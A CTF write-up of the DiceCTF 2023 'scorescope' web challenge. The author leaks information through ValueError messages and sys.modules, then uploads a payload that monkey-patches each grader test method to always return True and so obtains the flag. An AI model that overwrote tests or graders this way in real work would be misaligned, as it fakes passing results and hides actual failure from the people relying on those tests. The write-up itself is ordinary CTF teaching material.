 ```yaml
---
title: scorescope - DiceCTF 2023 
date: 2023-02-07 23:14:49
author: sk4d
author_url: https://twitter.com/RahulSundar8
categories:
  - Web
tags:
  - DiceCTF2023
---
```


**tl;dr**
 - read output using ValueError
 - sys.modules to print all the app modules
 - go through the module classes and find the test case functions and re-write them to always return true 

<!--more-->

**Challenge Points**: 156
**No. of solves**: 55
**Solved by**: [sk4d](https://twitter.com/RahulSundar8)

## Description

I'm really struggling in this class. Care to give me a hand?


## intro

I played DiceCTF 2023 last weekend with my team **bi0s**. There a were a lot of awesome web challenges. I have worked on some of the web challenges and this is the write-up for the challenge scorescope

## Initial analysis

We are allowed to upload a python file and the application will run several test cases on the file and if the test cases are successful it will be reflected on the page with a green colour. At first i thought this challenge was kind of a pyjail challenge where we have to bypass certain restrcitions to get command execution but later figured out it was not the case when i saw the functions were frozen and the hidden test which was impossible to pass

## Exploitation

> ValueError: Raised when an operation or function receives an argument that has the right type but an inappropriate value,

Since the application only tells us if our test case is successful or not we were not able to directly see the results, we can bypass this by using the ValueError Exception call as it prints whatever we pass to it as an Exception

```python
import sys
raise ValueError(str(print(7*7)))
```
i had no idea what we were supposed to do in this challenge for a while and i spend some time trying some pyjail exploits and trying to get some juicy information and i tried the sys.modules which gave us all the loaded libraries

```python
import sys
raise ValueError(str(sys.modules))
```

```text
'util': <module 'util' from '/app/util.py'>
 'test_1_add': <module 'test_1_add' from '/app/tests/test_1_add.py'>
 'test_2_longest': <module 'test_2_longest' from '/app/tests/test_2_longest.py'>
 'test_3_common': <module 'test_3_common' from '/app/tests/test_3_common.py'>
 'test_4_favorite': <module 'test_4_favorite' from '/app/tests/test_4_favorite.py'>
 'test_5_factor': <module 'test_5_factor' from '/app/tests/test_5_factor.py'>
 '_hashlib': <module '_hashlib' from '/usr/local/lib/python3.11/lib-dynload/_hashlib.cpython-311-x86_64-linux-gnu.so'>
 '_blake2': <module '_blake2' from '/usr/local/lib/python3.11/lib-dynload/_blake2.cpython-311-x86_64-linux-gnu.so'>
 'hashlib': <module 'hashlib' from '/usr/local/lib/python3.11/hashlib.py'>
 'test_6_preimage': <module 'test_6_preimage' from '/app/tests/test_6_preimage.py'>
 'test_7_magic': <module 'test_7_magic' from '/app/tests/test_7_magic.py'>
 'test_8_hidden': <module 'test_8_hidden' from '/app/tests/test_8_hidden.py'>
```
these modules caught my eyes and i tried importing them in the payload and went through all the functions and properties of these modules

```python
import test_8_hidden
raise ValueError(str(dir(test_8_hidden)))
```
we saw that all these modules has a class like TestAdd, TestHidden, TestMagic ..etc which had the functions which was called to test the test cases (noise).

```python
def add(a, b):
    import sys
    import util
    import test_1_add
    import test_2_longest
    import test_3_common
    import test_4_favorite
    import test_5_factor
    import test_6_preimage
    import test_7_magic
    import test_8_hidden
    import submission
    
    x = test_8_hidden.TestHidden()
    x.__class__.test_hidden = lambda s: True
    y = test_1_add.TestAdd()
    y.__class__.test_add_negative = lambda s: True
    y.__class__.test_add_positive = lambda s: True
    y.__class__.test_add_mixed = lambda s: True
    test_7_magic.TestMagic.test_magic_a = lambda s: True
    test_7_magic.TestMagic.test_magic_b = lambda s: True
    test_7_magic.TestMagic.test_magic_c = lambda s: True
    test_6_preimage.TestPreimage.test_preimage_a = lambda s: True
    test_6_preimage.TestPreimage.test_preimage_b = lambda s: True
    test_5_factor.TestFactor.test_factor_bigger = lambda s: True
    test_5_factor.TestFactor.test_factor_large = lambda s: True
    test_5_factor.TestFactor.test_factor_small = lambda s: True
    test_4_favorite.TestFavorite.test_favorite = lambda s: True
    test_3_common.TestCommon.test_common_nonconsecutive = lambda s: True
    test_3_common.TestCommon.test_common_single = lambda s: True
    test_3_common.TestCommon.test_common_consecutive = lambda s: True
    test_3_common.TestCommon.test_common_empty = lambda s: True
    test_3_common.TestCommon.test_common_many = lambda s: True
    test_2_longest.TestLongest.test_longest_multiple_tie = lambda s: True
    test_2_longest.TestLongest.test_longest_multiple = lambda s: True
    test_2_longest.TestLongest.test_longest_single = lambda s: True
    return a+b
```
This was our final payload for the scorescope challenge , uploading this template.py file will turns all the test cases true and the application gives us the flag. You can ignore the `__class__` in our payload because it only points to the TestHidden class itself and you can just do which will also make the hidden test case true
```python
test_8_hidden.TestHidden.hidden_test = lambda s: True
```

## Conclusion

Thanks to the DiceCTF 2023 organizers for the amazing web challenges as always :)
